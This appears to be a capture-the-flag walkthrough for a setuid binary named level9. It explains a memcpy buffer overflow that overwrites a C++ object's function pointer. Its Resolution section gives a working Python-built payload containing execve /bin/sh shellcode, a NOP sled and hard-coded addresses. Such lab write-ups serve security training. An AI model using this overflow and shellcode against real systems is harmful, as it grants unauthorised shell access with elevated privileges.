

# Level9

## Context & Explanation
 * There is one file in our home, ```level9```, belonging to ```bonus0``` user, with suid.
 * Here's the decompiled source code we propose for this binary: [source.c](source.c)

 * We run the program with gdb and we observe that:
 	* In the `main()`
		* `_Znwj@plt()` is called to allocate `0x6c` of memory
		* `_ZN1NC1Ei()` is called to fill the previously allocated memory, with a function pointer pointer, and a value at the end.
		* We repeat a second time these 2 operations.
		* `_ZN1N13setAnnotationEPc()` is then called on object_1
			* a `memcpy()` is done on `av[1]`
		* Finally, the function pointer pointer of the 2nd object is called.

## Exploited vulnerability

We will use a Buffer-Overflow attack on the `memcpy()` to make use of the 2nd function pointer pointer to execute a shellcode.
Here is a visual representation :


## Resolution

```
./level9 `python -c "print('10a00408'.decode('hex') + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80' + '\x90' * 79 +  '0ca00408'.decode('hex'))"
```
